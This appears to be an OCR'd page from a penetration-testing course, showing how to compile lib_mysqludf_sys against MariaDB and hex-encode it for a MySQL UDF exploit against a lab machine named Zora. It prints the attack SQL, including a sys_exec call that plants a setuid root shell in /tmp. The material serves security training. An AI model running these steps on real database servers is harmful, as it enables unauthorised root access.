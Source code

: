  kali@kali:~/lib_mysqludf_sys$ sudo apt update && sudo apt install default-libmysqlclie
nt-dev
 
 Now that we have the dependencies installed, we need to remove the old object file beforegenerating the new one.
 
 kali@kali:~/lib_mysqludf_sys$ rm lib_mysqludf_sys.so 

 
 Looking at the Makefile, we will need to make some minor adjustments to ensure we can compilethe source file correctly.
 
 LIBDIR=/usr/lib
install:
 gcc -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o $(LIBDIR)/lib
_mysqludf_sys.so
 
 Specifically we need to adjust the include directory path for the gcc command since we have aMariaDB installation on our Kali system and not a MySQL one. The changes to the Makefile areshown in Listing 914.
 
 kali@kali:~/lib_mysqludf_sys$ </span>cat Makefile</span>
LIBDIR=/usr/lib
install:
 gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include
/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so

kali@kali:~/lib_mysqludf_sys$ make
gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb
/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
 
 The -W all flag enables all of gcc’s warning messages and -I includes the directory of header files.The list included in the command found in Listing 914 are common locations for header files forMariaDB. The -shared flag tells gcc this is a shared library and to generate a shared object file.Finally, -o tells gcc where to output the file.
 
 Recalling the SQL commands from the UDF exploit, to transfer the shared library to the targetdatabase server, we will need the file as a hexdump
 
 select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
 
 To do so we can use the following command:
 
 kali@kali:~/lib_mysqludf_sys$ xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_s
ys.so.hex
 
 The xxd command is used to make the hexdump and the -p flag outputs a plain hexdump, whichmakes it easier for further manipulation. We use tr to delete the new line character and then dumpthe contents of the output to a file named lib_mysqludf_sys.so.hex.
 
 The contents of the lib_mysqludf_sys.so.hex file is what we will use for shellcode.
 
 We have everything that we need to attempt to exploit Zora. Now we just need to put it together.Before we begin running the malicious SQL commands, we will create a variable in MariaDB for theshellcode. The contents of this variable are obtained from the lib_mysqludf_sys.so.hex file.
 